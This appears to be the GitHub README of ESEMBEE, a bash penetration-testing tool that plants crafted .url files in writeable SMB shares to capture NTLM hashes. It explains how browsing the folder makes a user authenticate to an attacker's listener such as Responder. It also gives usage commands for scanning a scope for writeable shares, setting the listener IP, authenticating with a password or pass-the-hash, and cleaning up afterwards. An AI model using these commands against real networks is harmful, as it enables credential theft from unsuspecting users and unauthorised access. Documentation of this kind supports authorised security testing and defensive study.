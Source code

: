 # ESEMBEE--A tool for URL File attacks targeting SMB shares 

ESEMBEE is a tool written in bash that aids in the process of utilizing malicious URL files in writeable file shares to capture user hashes. Below you'll find a quick synopsis of what a URL file is, how it is used in penetration testing to capture hashes and some examples of how the Esembee shell script can be leveraged to aid in the process of identifying writable shares, creating a URL file, placing the URL file in the writeable shares, and ultimately cleaning up the environment once the engagement is over. 

## What is a URL file?

To keep it simple a URL file is a file that points to a specific URL. This file is typically utilized as a shortcut to a webpage. An example of a legitimate URL file is below. 

## Leveraging a URL to Capture Hashes

Utilizing a specifically crafted URL file, a pentester can capture hashes of the users that simply browse to the directory location of the URL file. The reason for this due to the way the URL file is created. When a user browses to a directory hosting the URL file, the URL file forces the user to request an icon file from and provide authentication to the IP listed in the URL file. However, instead of legitimately providng an icon, the IP will be listening for and waiting for this authentication request to occur. Typically a tool like Responder will be utilized to capture this hash, however, other tools can be leveraged as well. 

The best part is that all of these requests and authentication efforts are done in the background and the user does not need to even open the URL file. As long as the user opens the directory then this attack can be leveraged. 

With that being said, an ideal target directory for this URL file will be a shared file share. 

# Utilizing the ESEMBEE script

With this attack method in mind, the ESEMBEE script was written to aid in the process of performing an URL file attack. ESEMBEE has the following requirements:
1. Domain User creds (either a NTLM hash or a cleartext password)
2. A Target
   * This can be a txt of IPs with the -f option OR
   * This can be a single IP with (-I) along with a specific share with (-S)


## Target Options

With ESEMBEE, a target can be specified in different ways. A txt of IPs where every found writeable share will have a URL file placed or for a more targeted approach, a single IP and share can be specified. 





## Finding Writeable Shares

Using the context of a domain user, ESEMBEE can use the -t option to determine if a share is writeable

```
./esembee.sh -u DOMAIN/USER -p PASSWORD/HASH -f <scope.txt> -t
```
## URL File Options

esembee will create a URL file and request the IP for the malicious file when it is ran. You can also specify the URL file IP with the -L option if you want to skip the required prompt and perform a single command.  Alternatively, you specify an already created URL file with the -F option. 

##### syntax to Specify a Listener IP
```
./esembee.sh -u DOMAIN/USER -p PASSWORD/HASH -f <scope.txt> -L <ListenerIP>
```

##### Syntax to just run the URL file Generator

```
./esembee.sh -G
```

##### Syntax to Specify an already generated URL file

```
./esembee.sh -u DOMAIN/USER -p PASSWORD/HASH -f <scope.txt> -F <FILE.URL>

```
## Authentication Options

ESEMBEE can be utilized both a cleartext password and an NTLM Hash to authenticate to the targeted shares. Regardless of the authentication method, the authentication should follow the -p argument. If the authentication used is an NTLM hash, simply add a -H tag to your command and the --ntlm-as-pass option for SMB client will be passed through. 


##### Using an NTLM Hash for Authentication

```
./esembee.sh -u DOMAIN/USER -p PASSWORD/HASH -H -f <scope.txt> -F <FILE.URL>
```


## Cleanup Utility

```
./esembee.sh -u DOMAIN/USER -p PASSWORD/HASH -H -f <scope.txt> -F <FILE.URL> -C
```
